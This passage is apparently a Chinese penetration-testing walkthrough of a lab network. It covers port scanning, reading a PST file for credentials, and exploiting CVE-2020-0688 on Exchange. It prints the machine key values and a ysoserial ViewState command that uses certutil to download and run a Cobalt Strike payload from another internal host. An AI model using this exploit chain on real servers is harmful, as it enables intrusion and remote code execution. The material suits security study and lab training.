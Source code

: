 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEJjZY4fxHWofqDGE2bCVgrhcibRSQIWrAOXgdMwUKSrMicIQ013hqz7HA/640?wx_fmt=png)

直接成了 --，再上线。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEECPuVpbzs2cBmgI08sf9zNiag5DOjcAU6jnCcTVLrdqdQdTIgzruYtuw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEXK6v6TzsIyP16vecz9DQ63HjTP3ANt5Pw7mew6jib3lWjuiaYe7Dk0Tw/640?wx_fmt=png)

**Exchange Server**

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEIm8EgGEW3cHtXwcjicgUeibNg80k10yZjWLoV6yghSA0rL4Ly4uelY0g/640?wx_fmt=png)

两张网卡，我们先来探测一下。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEp13UxIAlIFiayONfhqO6qKhoPBF6UAl4vicdfsqRtgTlolfrjBQZhdPQ/640?wx_fmt=png)

需要注意，cs 在第二层网络做 sockets 的时候，就不需要在本地挂双层代理了，挂这二层网络的一个 socks 就可以。

着重看 201 和 209. 端口探测结果如下:

201: 49115 139 80 445 135   209: 6006 593 99525 110 587 135 139 80 443 445

着重关注一下 445 这个端口，试了一下永恒之蓝并没有成功。

看了下两台机器的 80 端口，都是 IIS 的 forbidden，但是 209 的 443 是一个 outlook。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEUrfdIiclibNof2PvcTcXTUmQGaFMFesvB84kB2htwfgOFUUms0o7iagKA/640?wx_fmt=png)

考虑的是 CVE-2020-0688 和 CVE-2021-26857 这两个。在这之前又在 redis 服务器上翻了翻文件。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEENovgHojEW1avGTvRaMErpUpiciaNxrib9rsKEp3p6AEZrjNf5mB5AVgVg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEE7E0GPWLEKn1yx4uHZYXib45OM3uicvg9EicW4230ibYUyPekJa23HOYyNw/640?wx_fmt=png)

试了每个密码都不对，后面看了下 pst:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEKia7oIhVyiaP6ntStlxpoibC87SdvUibEvf9rA2XpCiafXHpKhmZuGKvh0A/640?wx_fmt=png)

**CVE-2020-0688**

登陆成功，我们来手工复现 CVE-2020-0688

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEETAFDXPMjE7ZK9e3h6iagfkfTUw6GricHsDu1FymzzuoR6cA3HL8HRvXA/640?wx_fmt=png)

viewstateuserkey

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ABK0yH8Sx7J8ibkiclKeqwgEEpiaYd85vicmiaHoDLtUHBxay1kvftiayrfqtBdlibEY6rdQWpeDjbYvteIg/640?wx_fmt=png)

generator

--validationkey =CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF 默认，漏洞产生原因 --validationalg =SHA1 默认，漏洞产生原因 --generator =B97B4E27 基本默认 --viewstateuserkey= 89b39456-36b1-44ce-bb28-ea9d5ff2da5f

构造如下 payload 使用 ysoserial 进行反序列化，尝试写了 shell，但是 windows 写 shell 真的烦，不成功，所以把 shell 放到 redis 服务器上然后调用 powershell 下载，成功但是总是 500，直接上 cs 的马 (redis 有两个 ip，CSListener 用 192.168.59 段的不会上线，10 段的就可以):

```
ysoserial.exe -p ViewState -gTextFormattingRunProperties -c "cmd.exe /c certutil -urlcache-split -f http://10.10.10.202/be.exe b.exe && b.exe"--validationalg="SHA1"--validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF"--generator="B97B4E27"--viewstateuserkey="89b39456-36b1-44ce-bb28-ea9d5ff2da5f"--isdebug --islegacy
```
